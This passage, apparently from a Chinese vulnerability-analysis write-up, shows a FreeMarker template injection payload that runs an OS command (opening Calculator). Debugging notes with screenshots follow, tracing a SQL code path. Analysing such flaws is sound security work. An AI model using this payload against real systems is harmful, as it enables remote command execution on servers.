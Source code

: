 ```plain
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("open -a Calculator.app")}
```

[![](assets/1704273687-9ea8a65ae5c445fbf363d119d5b4aad8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153445-914be566-aa0a-1.png)

随着继续跟进，不用看type，因为不影响。直接看sql

[![](assets/1704273687-6efefc3a01c339c6b1ebfa85a46584ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153500-99c2298a-aa0a-1.png)

这里走入的是第二个sql的，因为paramArray是null

[![](assets/1704273687-5ad35be7d8c92cdc18bc592d619a69a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153519-a506fee2-aa0a-1.png)
